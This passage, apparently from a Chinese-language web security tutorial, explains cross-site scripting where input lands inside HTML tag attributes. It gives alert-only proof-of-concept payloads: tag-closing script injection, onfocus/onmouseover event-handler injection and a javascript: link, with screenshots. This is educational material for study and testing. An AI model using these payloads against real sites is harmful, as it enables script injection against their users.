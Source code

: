 ### 回显在标签的属性中

如果属性能被注入，通常可以添加一些事件导致 xss。

```
# 闭合标签
"><script>alert(document.domain)</script>
# 更常见的是，尖括号被阻止或编码，因此您的输入无法跳出它所在的标签。如果您可以终止属性值，则通常可以引入创建可编写脚本上下文的新属性，例如事件处理程序。
" autofocus onfocus=alert(document.domain) x="
```

```
nihao
```

![image-20250527172650694](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527172650694.png)

```
" onmouseover="alert(1)
```

![image-20250527172951203](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527172951203.png)

![image-20250527173013074](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250527173013074.png)

### 可以 xss 的属性

有时，XSS 上下文位于一种 HTML 标记属性中，该属性本身可以创建可编写脚本的上下文。

例如：

```
<a href="javascript:alert(document.domain)">
```

![image-20250528102521835](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528102521835.png)

![image-20250528102506880](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528102506880.png)

![image-20250528102538627](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528102538627.png)